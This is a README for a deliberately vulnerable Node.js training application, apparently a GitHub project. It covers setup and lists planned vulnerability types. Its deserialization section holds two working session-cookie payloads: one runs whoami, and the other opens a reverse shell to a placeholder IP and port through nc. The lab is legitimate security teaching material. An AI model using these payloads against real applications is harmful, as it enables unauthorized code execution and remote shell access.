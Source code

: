 # README

Welcome to the Damn Vulnerable CCX Site!

This is a vulnerable web application designed for educational purposes. It contains intentional security vulnerabilities that you can exploit to learn about common web application vulnerabilities and how to mitigate them.

## Installation

1. Clone the repository: `git clone https://github.com/turnernator1/Damn-Vulnerable-Web-App.git`
2. Navigate to the server directory: `cd Damn-Vulnerable-Web-App/server`
3. Install dependencies: `npm install`
4. Start the server: `npm start`

## Usage

Once the server is running, you can access the web application by navigating to `http://localhost:3000` in your web browser. Please note that this application is intentionally vulnerable, so only run it in a controlled environment.

## Vulnerabilities

The Damn Vulnerable CCX Site contains various vulnerabilities, including:

- Insecure Deserialization

### Insecure Deserialization
#### Demo Payloads
Base64 encode these payloads and set as the 'session' cookie value.
- WHOAMI 
{"username":"_$$ND_FUNC$$_function (){\n \t const exec = require('child_process').execSync;\n \t const output = exec('whoami').toString().trim();\n \t return output ;\n }()"}
 
- REV SHELL
{"username":"_$$ND_FUNC$$_function (){\n \t const exec = require('child_process').execSync;\n \t const output = exec('rm -f /tmp/f;mkfifo/tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f');\n \t return 'PWND';\n }()"}

Future versions of the application will include additional vulnerabilities, such as:
- Cross-Site Scripting (XSS)
- SQL Injection
- Command Injection
- Path Traversal
- Remote Code Execution
- Cross-Site Request Forgery (CSRF)
- Insecure Direct Object References (IDOR)
- Server-Side Request Forgery (SSRF)
- and more...

TODO:
- [ ] Add additional server-side vulnerabilities
- [ ] Add frontend with client-side vulnerabilities

Please exercise caution when interacting with this application and only perform actions within the scope of your own environment.



